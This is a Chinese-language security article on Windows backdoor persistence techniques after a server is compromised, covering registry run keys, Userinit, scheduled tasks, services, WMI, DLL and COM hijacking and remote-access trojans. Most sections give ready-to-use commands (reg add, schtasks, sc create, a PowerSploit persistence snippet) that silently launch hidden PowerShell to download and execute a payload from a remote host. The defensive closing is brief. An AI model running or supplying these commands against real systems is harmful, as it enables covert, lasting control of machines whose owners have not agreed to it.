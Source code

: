 
关键词：Windows系统后门、权限维持

在获取服务器权限后，通常会用一些后门技术来维持服务器权限，服务器一旦被植入后门，攻击者便如入无人之境。本文将对常见的window服务端自启动后门技术进行解析，知己知彼方能杜绝后门。

**0x01 注册表自启动**

通过修改注册表自启动键值，添加一个木马程序路径，实现开机自启动。

常用的注册表启动键：

```powershell
# Run键 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Winlogon\Userinit键
HKEY_CURRENT_USER\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon

# 类似的还有很多,关键词：注册表启动键值。
```

使用以下命令可以一键实现无文件注册表后门：

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\"" /f
```



**Logon Scripts 后门**

注册表路径：HKEY_CURRENT_USER\Environment\

创建字符串键值：  UserInitMprLogonScript，键值设置为bat的绝对路径：`c:\test.bat`

**userinit后门**

在用户进行登陆时，winlogon运行指定的程序。根据官方文档,可以更改它的值来添加与删除程序。

利用USERINIT注册表键实现无文件后门：

~~~powershell
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
 
"Userinit"="C:\\Windows\\system32\\userinit.exe,C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""
~~~

**0x02 组策略设置脚本启动**

运行gpedit.msc进入本地组策略，通过Windows设置的“脚本(启动/关机)”项来说实现。因为其极具隐蔽性，因此常常被攻击者利用来做服务器后门。

![](http://img-upaiyun-own.test.upcdn.net/privilege-4-3.png)

容易遇到的问题：脚本需全路径，如`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe `

**0x03 计划任务**

通过window系统的任务计划程序功能实现定时启动某个任务，执行某个脚本。

使用以下命令可以一键实现：

~~~powershell
schtasks /create /sc minute /mo 1 /tn "Security Script" /tr "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\"\"\"http://192.168.28.142:8888/logo.gif\"\"\"))\""
~~~

容易遇到的问题：cmd命令行执行单引号会被替换成双引号，故这里使用三个双引号替代。

计划脚本每 1 分钟运行一次。

![](http://img-upaiyun-own.test.upcdn.net/privilege-4-4.png)

**0x04 服务自启动**

通过服务设置自启动，结合powershell实现无文件后门。

使用以下命令可实现：

~~~powershell
sc create "KeyName" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""

sc description  KeyName "Just For Test"   #设置服务的描述字符串
sc config Name start= auto                #设置这个服务为自动启动
net start Name                            #启动服务
~~~

成功创建了一个自启动服务

![](http://img-upaiyun-own.test.upcdn.net/privilege-4-5.png)

**0x05 WMI后门**

在2015年的blackhat大会上Matt Graeber介绍了一种无文件后门就是用的WMI。这里可以利用一个工具powersploit，下面用它的Persistence模块来示范一个简单的例子。

~~~powershell
Import-Module .\Persistence\Persistence.psm1
$ElevatedOptions = New-ElevatedPersistenceOption -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath .\EvilPayload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose
~~~

**0x06 dll劫持**

如果在进程尝试加载一个DLL时没有指定DLL的绝对路径，那么Windows会尝试去指定的目录下查找这个DLL；如果攻击者能够控制其中的某一 个目录，并且放一个恶意的DLL文件到这个目录下，这个恶意的DLL便会被进程所加载，从而造成代码执行。

比较常用的如LPK.dll的劫持：

win7及win7以上系统增加了KnownDLLs保护，需要在注册表：

```powershell
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

下添加 “lpk.dll” 才能顺利劫持：

![](http://img-upaiyun-own.test.upcdn.net/privilege-4-6.png)

**0x07 COM劫持**

利用COM劫持技术，最为关键的是dll的实现以及CLSID的选择，通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例。这种方法可以绕过Autoruns对启动项的检测。

![](http://img-upaiyun-own.test.upcdn.net/privilege-4-7.png)

**0x08 远程控制**

远控木马是一种恶意程序，其中包括在目标计算机上用于管理控制的后门。远程访问木马通常与用户请求的程序（如游戏程序）一起，是一种看不见的下载，或作为电子邮件附件发送。一旦主机系统被攻破，入侵者可以利用它来向其他易受感染的计算机分发远程访问木马，从而建立僵尸网络。

一般分为客户端和服务端，如：灰鸽子、上兴远控、梦想时代、QuasarRAT等。

![](http://img-upaiyun-own.test.upcdn.net/privilege-4-8.png)

**0x09 结束语**

未知攻焉知防，本文分享了几种Window下的自动启权限维持技术。管理员在平时运维过程应当保持警惕，掌握一定的入侵排查技巧，及时进行系统补丁更新，定期对服务器安全检查，才能有效地预防后门。

